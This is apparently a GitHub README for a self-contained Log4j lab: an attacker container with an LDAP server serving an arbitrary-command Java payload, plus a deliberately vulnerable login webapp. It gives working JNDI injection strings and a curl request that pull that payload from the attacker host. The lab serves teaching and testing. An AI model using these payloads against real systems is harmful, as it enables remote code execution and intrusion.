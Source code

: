 ## Log4j self contained attacker node and vulnerable webapp
This repo ultimately builds a container that has a LDAP server that references itself to deliver a malicious java payload over HTTP. The payload is compiled from source when the container is built. When the LDAP server receives a base64 encoded request, it edits the already compiled class file to decode the requested command into it, allowing any command to be specified by the attacker in base 64.

This repo also contains a web app that is built and started on port 80 as part of the docker compose file, but listening in the container on 8080

## Usage Instructions

Build and start the containers
```
docker-compose up
```

As docker-compose manages the networking between the attacker container and the vulnerable web app, you can reference the attacker by using the hostname "attacker", it will always resolve to the IP that docker assigns it. The address assigned might vary from system to system.

If you navigate to the IP address of the server in your web browser, you will be presented a vulnerable login form, the username field is vulnerable to the log4j exploit.
```
# Paste the following string in the username field and click submit
# The Base64 in this request decodes to touch /tmp/pwned
${jndi:ldap://attacker:1389/b64/dG91Y2ggL3RtcC9wd25lZA==}
```

You can also initiate the attack from inside the vulnerable web app container using curl
```
# The Base64 in this request decodes to touch /tmp/pwned
curl -X POST http://localhost:8080/login -H 'Content-Type: application/json' -d '{"username":"${jndi:ldap://attacker:1389/b64/dG91Y2ggL3RtcC9wd25lZA==}","password":"password"}'
```

## Optional environment Variables for attacker container
Ports and IP, if these are changed, docker commands will have to reference the new ports.
Do not change these if deploying from docker-compose, these are listed for other installs only

- L4J_LDAP_PORT (Port LDAP listens on, default 1389)
- L4J_HTTP_PORT (Port Http listens on, default 8888)
- L4J_LOCAL_IP (IP of the attacker node as seen by web app)